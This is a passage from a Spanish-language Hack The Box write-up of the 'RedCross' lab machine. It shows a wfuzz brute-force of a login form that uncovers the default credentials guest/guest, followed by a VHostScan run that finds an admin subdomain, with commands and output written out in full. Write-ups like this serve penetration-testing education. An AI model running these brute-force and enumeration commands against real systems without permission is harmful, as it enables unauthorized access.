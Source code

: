 - `-c` para agregar colores a la salida
- `--hh 11` para indicarle que mensajes ocultar, basado en la longitud de 11 caracteres
- `-z file,usernames` para la lista de posibles usuarios
- `-z file,passwords` para la lista de posibles contraseñas
- `-d user=FUZZ&pass=FUZ2Z&submit=Login&action=login` para el data del form donde insertamos los valores del diccionario.

Como podemos ver después de un par de intentos (39), el servidor empieza a rechazar las conexiones.

Reduciendo la prueba a valores idénticos (mismo nombre y contraseña), logre adivinar una cuenta para acceder:

```
xbytemx@laptop:~/htb/redcross$ wfuzz -c --hh 11 -z file,/home/xbytemx/git/SecLists/Usernames/top-usernames-shortlist.txt -d 'user=FUZZ&pass=FUZZ&submit=Login&action=login' https://intra.redcross.htb/pages/actions.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: https://intra.redcross.htb/pages/actions.php
Total requests: 17

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

000004:  C=200      0 L	       3 W	     32 Ch	  "guest"

Total time: 1.621467
Processed Requests: 17
Filtered Requests: 16
Requests/sec.: 10.48433
```

> creds: guest / guest

Ya tenemos unas credenciales validas para intra.redcross.htb.

# Searching for anothers subdomains

Como recodaremos, al realizar una petición directamente al servidor, nos mando hacia intra, pero ¿y si existen mas vhosts?

Probemos con vhostscan:

```
(VHostScan-loWTcTIQ) xbytemx@laptop:~/git/VHostScan$ VHostScan -t intra.redcross.htb -b redcross.htb -p 443 --ssl
+-+-+-+-+-+-+-+-+-+  v. 1.21
|V|H|o|s|t|S|c|a|n|  Developed by @codingo_ & @__timk
+-+-+-+-+-+-+-+-+-+  https://github.com/codingo/VHostScan

[+] Starting virtual host scan for intra.redcross.htb using port 443 and wordlists: /home/xbytemx/.cache/Python-Eggs/VHostScan-1.21-py2.7.egg-tmp/VHostScan/wordlists/virtual-host-scanning.txt
[>] SSL flag set, sending all results over HTTPS.
[>] Ignoring HTTP codes: 404
[+] Resolving DNS for additional wordlist entries
[!] Couldn't find any records (NXDOMAIN)
[#] Found: admin.redcross.htb (code: 200, length: 401, hash: d4c1c1cfc88ca212c152ad914a94d6ca3bcc9565d93ea934a3d999ed887a64c3)
  Date: Mon, 18 Mar 2019 01:40:58 GMT
  Server: Apache/2.4.25 (Debian)
```